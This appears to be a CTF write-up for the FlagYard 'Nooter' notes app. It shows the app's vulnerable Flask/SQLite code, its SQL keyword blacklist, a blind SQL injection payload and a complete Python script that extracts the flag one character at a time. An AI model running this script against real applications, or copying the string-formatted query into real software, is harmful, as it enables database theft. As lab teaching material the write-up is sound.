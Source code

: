```yaml
---
title: Test .md file
date: '2023-10-16'
tags: ['Writup', 'CTF', 'features']
draft: false
summary: FlagYard Nooter writup
---
```


After starting the CTF instance, we are greeted with a simple registration page. At first glance, this seems like a basic “notes” website where users can register, log in, and input their personal notes. However, as CTF participants, we know things are never that simple, and there’s likely a hidden vulnerability for us to exploit.

The goal of this challenge is to retrieve the flag. To achieve this, we must analyze the provided source code and attempt to exploit any security loopholes.

```python
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
from sqlite3 import Error
import string
import random
import re

class Database:
    def __init__(self, db):
        self.db = db
        try:
            self.conn = sqlite3.connect(self.db, check_same_thread=False)
        except:
            self.conn = None

    def gen_random(self) -> str:
        letters = string.ascii_lowercase
        result_str = ''.join(random.choice(letters) for i in range(15))
        return result_str

    def execute_statement(self, create_table_sql) -> str:
        try:
            c = self.conn.cursor()
            return c.execute(create_table_sql)
        except Error as e:
            return e

    def create_tables(self) -> str:
        create_user_table = '''
            CREATE TABLE IF NOT EXISTS user(
                id integer PRIMARY KEY,
                username text NOT NULL,
                password text NOT NULL
            );
        '''
        create_user_note = '''
            CREATE TABLE IF NOT EXISTS notes(
                username text NOT NULL,
                notes text NOT NULL
            );
        '''
        create_flag_table = '''
            CREATE TABLE IF NOT EXISTS flag(
                flag text NOT NULL
            );
        '''
        if self.conn is not None:
            self.execute_statement(create_user_table)
            self.execute_statement(create_flag_table)
            self.execute_statement(create_user_note)
            return "Tables have been created"
        else:
            return "Something went wrong"

    def insert(self, statement, *args) -> bool:
        try:
            sql = statement
            curs = self.conn.cursor()
            curs.execute(sql, (args))
            self.conn.commit()
            return True
        except:
            return False   

    def select(self, statement, *args) -> list:
        curs = self.conn.cursor()
        curs.execute(statement, (args))
        rows = curs.fetchall()
        result = []
        for row in rows:
            result.append(row)
        return result
```

The application uses an SQLite database for storing users, notes, and the hidden flag. The relevant tables are:

- `user`: Stores the usernames and passwords of registered users.
- `notes`: Stores notes submitted by logged-in users.
- `flag`: Stores the flag we're trying to extract.

The application employs a blacklist of certain SQL keywords (e.g., `exec`, `union`, `join`) to prevent common SQL injection attacks:

```python
def blacklist(string):
    string = string.lower()
    blocked_words = ['exec', 'load', 'blob', 'glob', 'union', 'join', 'like', 'match', 'regexp', 'in', 'limit', 'order', 'hex', 'where']
    for word in blocked_words:
        if word in string:
            return True
    return False
```

### SQL Injection in Notes

```python
query = db.insert("INSERT INTO notes(username, notes) VALUES(?,'%s')" % note, session['username'])
```

### Exploiting the SQL Injection Vulnerability

Testing the application locally, I modified the code to print out the SQL queries being executed:

```python
def insert(self, statement, *args) -> bool:
    try:
        sql = statement
        print(f"Executing SQL Query: {sql}")
        curs = self.conn.cursor()
        curs.execute(sql, (args))
        self.conn.commit()
        return True
    except Exception as e:
        print(f"Error executing query: {e}")
        return False
```

### Blind SQL Injection for Flag Extraction

To extract the flag, I used blind SQL injection:

```sql
' OR SUBSTR((SELECT flag FROM flag), 1, 1) = 'F'
```

### Python Script to Automate Flag Extraction

```python
import requests
import string

base_url = "http://your-instance-url.com/"
register_url = base_url + "register"
login_url = base_url + "login"
add_note_url = base_url

charset = string.digits + string.ascii_letters + "{}_"
flag = ""
position = 1

username = "your_username"  
password = "your_password" 

session = requests.Session()

def login():
    login_data = {"username": username, "password": password}
    response = session.post(login_url, data=login_data)
    if "Welcome" in response.text:
        print("[+] Login successful!")
    else:
        print("[-] Login failed.")
        exit()

def test_char_for_position(char, position):
    payload = f"' OR SUBSTR((SELECT flag FROM flag), {position}, 1) = '{char}"
    data = {"note": payload}
    response = session.post(add_note_url, data=data)

    reflected_values = [val for val in response.text if val in ('0', '1')]

    if reflected_values and reflected_values[-1] == '1':
        print(f"[+] Correct character at position {position}: '{char}'")
        return True
    return False

login()

while True:
    found_char = False
    for char in charset:
        if test_char_for_position(char, position):
            flag += char
            print(f"[+] Flag so far: {flag}")
            position += 1
            found_char = True
            break
    
    if not found_char:
        print("[*] Flag extraction complete!")
        break

print(f"[+] Extracted flag: {flag}")
```

The script maintains a session throughout to avoid logging in for every request, dynamically generates SQL injection payloads for each character and position, and extracts characters one by one until the entire flag is retrieved.

Flag extracted: `FlagY{**********************************}`
